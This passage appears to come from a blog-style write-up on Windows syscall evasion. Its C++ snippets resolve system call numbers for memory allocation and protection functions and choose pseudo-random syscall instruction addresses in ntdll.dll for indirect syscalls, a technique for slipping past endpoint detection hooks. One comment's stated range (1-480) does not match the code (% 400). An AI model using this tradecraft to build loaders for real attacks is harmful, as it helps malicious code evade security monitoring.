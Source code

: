 Now we can figure the SSN of our functions **by looping through the DWORD array and compare each entry with the (4 bytes least significant) half of the address I have retrieved before from the EAT of the ZwAllocateVirtualMemory,  ZwProtectVirtualMemory and ZwFlushInstructionCache functions**. 

```cpp
//here i can go through the list of the functions looking for what i want and then match it 
//the index at the match it is the SSN 
for (int i = 0; i < zwCounter -1; i++) {
    
    for (int j = 0; j < syscallEntries; j++) {
    
        //recycling variables here for comparing purposes 
        addressValue = (uintptr_t)syscalls[j].funcAddr;
        //if the address of the syscall we want matches any half of those we want
        //we know that's the right SSN
        if (syscallHalf[i] == (DWORD)(addressValue & 0xFFFFFFFF)) {
            syscalls[j].SSN = i;
            
        }
    }

}
```

Bello, looking at the SYSCALL_ENTRY structure now the only missing parameter is the address of a “random”  syscall/ret instructions within ntdll.dll I will be jumping to at execution time.

I could not rely on external functions that returns pseudo-random number so my approach was the following: 

```cpp
//address where the DLL is been written in memory is pretty much 
//expected to be different every time
ULONG_PTR currentAddress = (ULONG_PTR)&RetrieveZwFunctions;
while (syscalls[0].sysretAddr == NULL && syscalls[1].sysretAddr == NULL) {
    
    syscalls[0].sysretAddr = retrieveSCAddr((PBYTE) ((uintptr_t)baseAddress << 32 | syscallHalf[generateRandomFromAddress(currentAddress)]));
    currentAddress = currentAddress + 46; //static little jump with no reference whatsoever to motogp
    syscalls[1].sysretAddr = retrieveSCAddr((PBYTE)((uintptr_t)baseAddress << 32 | syscallHalf[generateRandomFromAddress(currentAddress)]));
    currentAddress = currentAddress + 46;
    syscalls[2].sysretAddr = retrieveSCAddr((PBYTE)((uintptr_t)baseAddress << 32 | syscallHalf[generateRandomFromAddress(currentAddress)]));
}
```

Basically retrieving the function address of the function in memory and convert it to a integer within a given range: 

```cpp
int generateRandomFromAddress(ULONG_PTR ptr) {
    uintptr_t address = (uintptr_t)ptr;
    // Extract lower bits from the address and scale to fit the range 1-480
    int randomNumber = ((address >> 3) & 0xFFFFF) % 400 + 1;

    return randomNumber;
}
```
